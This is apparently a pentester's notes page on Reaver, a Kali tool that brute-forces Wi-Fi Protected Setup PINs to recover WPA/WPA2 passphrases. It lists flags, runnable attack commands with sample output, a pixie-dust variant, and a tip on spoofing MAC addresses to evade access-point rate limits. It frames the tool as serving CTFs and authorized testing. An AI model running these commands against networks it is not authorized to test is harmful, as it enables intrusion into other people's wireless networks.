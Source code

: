 #### Official Documentation: [https://www.kali.org/tools/reaver/](https://www.kali.org/tools/reaver/)
#### Cheat Sheet: [[Kali Tools#Reaver|Reaver Commands]]
## Purpose
Reaver attacks Wi-Fi Protected Setup (WPS) to recover the WPA/WPA2 passphrase by exploiting weak WPS PIN implementations (brute-forcing PINs).

## Scenarios
- CTF: If a target AP has WPS enabled, use Reaver to brute-force the WPS PIN and recover the PSK.  
- Real world: Demonstrate poor WPS security on lab devices or client systems where WPS is enabled (authorized testing only).

## All needed info to run
- Target AP must have WPS enabled and be in range. WPS is increasingly disabled on modern routers.  
- Requires monitor mode adapter and capture tools (often used alongside `airodump-ng` for targeting).  
- Common Reaver flags:
  - `-i <mon_iface>` → monitor interface  
  - `-b <BSSID>` → target AP BSSID  
  - `-c <channel>` → channel  
  - `-vv` → very verbose  
  - `-w` → enable WPS pixie-dust attacks (some versions)  
  - `--mac=<mac>` → spoof MAC address if needed  
- Reaver is slow (tens of thousands of PIN attempts) unless vulnerabilities like pixie-dust exist.

## Example commands & outputs
```bash
# Run Reaver against target BSSID on channel 6 using mon0
$ sudo reaver -i mon0 -b 00:11:22:33:44:55 -c 6 -vv
# Output snippet:
# Waiting for beacon from 00:11:22:33:44:55
# Trying pin 12345670
# [!] 1/11000: Received M7 timeout
# PIN found: '12345670'
# WPA PSK: examplepassword

# Use pixie-dust (if supported and vulnerable)
$ sudo reaver -i mon0 -b 00:11:22:33:44:55 -c 6 -K 1 -vv
# Output: shows pixie-dust attack results and possibly instant PIN recovery
```

!!! note "Reaver Basics"
	- Reaver targets WPS — many modern routers disable WPS; check before running.
	- Reaver can take a long time (hours to days) without vulnerabilities like pixie-dust.
	- Use `--mac` to rotate or spoof MAC to avoid AP rate-limiting or blocks.
	- Always have written authorization — brute forcing wireless devices is intrusive.

### [[Kali Tools#Reaver|Reaver Commands]]